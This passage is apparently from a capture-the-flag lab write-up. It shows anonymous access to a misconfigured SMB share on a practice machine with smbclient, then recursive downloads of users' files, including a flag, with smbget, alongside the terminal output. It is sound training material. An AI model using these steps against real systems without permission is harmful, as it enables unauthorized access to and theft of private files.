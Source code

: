 Success! The WorkShares SMB share was poorly configured, allowing us to log in without the appropriate credentials. We can see our terminal prompt changed to smb: \> , letting us know that our shell is now interacting with the service. We can use the help command to see what we can do within this shell.

```bash
atom@atom-VirtualBox:~$ smbclient -N \\\\10.129.144.227\\WorkShares
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Mar 29 13:52:01 2021
  ..                                  D        0  Mon Mar 29 13:52:01 2021
  Amy.J                               D        0  Mon Mar 29 14:38:24 2021
  James.P                             D        0  Thu Jun  3 14:08:03 2021

		5114111 blocks of size 4096. 1751942 blocks available
smb: \>
```

``` smbget ``` is used to download remote shares files 

```bash
atom@atom-VirtualBox:~/htb/dancing$ smbget -R smb://10.129.144.227//WorkShares//James.P
Password for [atom] connecting to //10.129.144.227/WorkShares: 
Using workgroup WORKGROUP, user atom
smb://10.129.144.227//WorkShares//James.P/flag.txt                                                      
Downloaded 32b in 6 seconds
```

```bash
atom@atom-VirtualBox:~/htb/dancing$ smbget -R smb://10.129.144.227//WorkShares//Amy.j
Password for [atom] connecting to //10.129.144.227/WorkShares: 
Using workgroup WORKGROUP, user atom
smb://10.129.144.227//WorkShares//Amy.j/worknotes.txt                                                   
Downloaded 94b in 6 seconds
```

flag is hidden on worknotes.txt